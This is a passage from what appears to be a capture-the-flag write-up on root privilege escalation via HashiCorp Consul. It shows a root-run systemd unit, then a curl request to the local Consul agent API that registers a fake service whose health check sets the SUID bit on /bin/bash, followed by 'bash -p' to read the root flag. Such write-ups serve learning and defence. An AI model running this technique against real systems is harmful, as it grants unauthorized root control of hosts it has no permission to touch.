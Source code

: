 ```bash
ron@heabl:/tmp$ cat /etc/systemd/system/consul.service
	[Unit]
	Description=Consul Service Discovery Agent
	After=network-online.target
	Wants=network-online.target
	[Service]
	User=root
	Group=root
	ExecStart=/usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -
	bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-
	dir=/etc/consul.d
	Restart=on-failure
	ExecReload=/bin/kill --signal HUP $MAINPID
	KillMode=process
	KillSignal=SIGTERM
	SyslogIdentifier=consul
	[Install]
	WantedBy=multi-user.target
```
### 🔹 4.2 Exploitation via Consul API
HashiCorp Consul is a service mesh solution that provides service discovery and health checking. In this machine, Consul was running locally and configured via systemd to run as the root user.

Consul allows dynamic service registration using its HTTP API. One feature, the health check, can execute arbitrary commands defined in the service JSON. This becomes dangerous when:
- The Consul agent API is accessible
- The service runs with elevated privileges (e.g., root)
    
In this case, we abused the `/v1/agent/service/register` endpoint to inject a malicious health check that executes commands as root. Specifically, we registered a fake service with a health check that sets the SUID bit on `/bin/bash`, granting root shell access to any user who runs it.
Used Consul’s agent API to register a malicious health check:
```bash
curl -X PUT http://127.0.0.1:8500/v1/agent/service/register \
  -H "Content-Type: application/json" \
  -d '{
    "Address": "127.0.0.1",
    "check": {
      "Args": ["/bin/bash", "-c", "chmod +s /bin/bash"],
      "interval": "10s",
      "Timeout": "864000s"
    },
    "ID": "pwned",
    "Name": "pwned",
    "Port": 80
  }'
```

Spawned root shell via:

```bash
bash -p
cat /root/root.txt
```

---